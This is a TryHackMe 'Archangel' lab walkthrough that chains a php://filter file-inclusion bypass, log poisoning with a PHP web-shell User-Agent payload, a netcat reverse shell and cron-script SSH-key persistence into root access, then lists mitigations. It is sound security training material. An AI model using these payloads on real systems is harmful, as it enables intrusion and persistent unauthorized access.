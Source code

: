 # 🟩Archangel – Try Hack Me (THM) Walkthrough Report   

**Prepared by:** Nishanth Antony  
**Date:** September 05, 2025  
**Difficulty:** Easy  
**Category:** Web Exploitation, Privilage Escalation  
**Platform:** Try Hack Me  


---

## 1. Reconnaissance

### 1.1 Service Enumeration

An initial **Nmap scan** was conducted to identify open services:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

* **Port 22 (SSH):** Open, potentially useful for post-exploitation persistence.
* **Port 80 (HTTP):** Hosted a web application named *Wavefire*.

### 1.2 Virtual Host Discovery

* Extracted domain information from the website footer: **mafialive.thm**.
* Added entry in `/etc/hosts` to resolve the hostname.

```bash
echo "10.10.93.69 mafialive.thm" | sudo tee -a /etc/hosts
```

### 1.3 Hidden Resource Discovery

* Retrieved `/robots.txt` which disclosed **/test.php**, a development page.

---

## 2. Exploitation Process

### 2.1 Local File Inclusion (LFI)

* Parameter `?view=` on `test.php` vulnerable to LFI.
* Initial restriction prevented traversal using `../..`.
* Used `php://filter` with base64 encoding to bypass and read source code:

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

* Extracted second flag inside source:

```
thm{explo1t1ng_lf1}
```

### 2.2 Log Poisoning for Remote Code Execution

* Discovered Apache access logs readable through LFI.
* Injected PHP payload via **User-Agent** header:

```http
User-Agent: <?php system($_GET['cmd']); ?>
```

* Included the poisoned log file to execute system commands.
* Retrieved remote PHP reverse shell and gained access as **www-data**.

---

## 3. Proof of Concept (PoC)

* Reverse shell established:

```bash
rlwrap nc -nlvp 4444
connect to [10.8.50.72] from (UNKNOWN) [10.10.99.3] 49310
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

* Extracted user flag:

```
cat /home/archangel/user.txt
thm{lf1_t0_rc3_1s_tr1cky}
```

---

## 4. Privilege Escalation

### 4.1 Cronjob Exploitation

* Found writable script executed by user **archangel** every minute:

```
/opt/helloworld.sh
```

* Replaced with malicious script to append an SSH key:

```bash
#!/bin/bash
mkdir -p /home/archangel/.ssh
echo "ssh-rsa AAAAB3Nz..." >> /home/archangel/.ssh/authorized_keys
```

* Waited for cronjob execution → logged in as **archangel** via SSH.

### 4.2 Root Escalation

* Enumerated `/etc/crontab`, identified another exploitable task owned by **root**.

* Replaced with privilege escalation payload, obtained **root shell**.

* Final flag retrieved:

```
cat /root/root.txt
[REDACTED]
```

---

## 5. Mitigation Recommendations

1. **Web Application Security**

   * Disable **directory traversal and LFI vulnerabilities** through strict input validation.
   * Avoid exposing sensitive files (e.g., `/robots.txt` revealing development endpoints).
   * Sanitize user input and enforce whitelist-based file inclusion.

2. **Log Security**

   * Prevent log poisoning by sanitizing User-Agent headers.
   * Restrict log file read permissions from the web service.

3. **File Permissions**

   * Do not allow world-writable scripts in `/opt` or cron jobs.
   * Apply **principle of least privilege** (cronjobs should not be writable by other users).

4. **System Hardening**

   * Regularly audit **/etc/crontab** and scripts executed with elevated privileges.
   * Enable AppArmor/SELinux for additional confinement.

---

## 6. Lessons Learned & Skills Practiced

* Practical exploitation of **LFI → RCE via log poisoning**.
* Identified and bypassed **basic path traversal protections**.
* Leveraged cronjob misconfigurations for **privilege escalation**.
* Practiced **reverse shell handling, privilege enumeration, and persistence techniques**.
* Reinforced importance of **defense-in-depth**: securing applications, services, and OS-level tasks.

---

 **Report Summary**:
The Archangel machine was compromised by chaining an **LFI vulnerability** into **log poisoning for RCE**, followed by **cronjob privilege escalation**. Multiple misconfigurations and lack of input sanitization facilitated full system compromise.

---

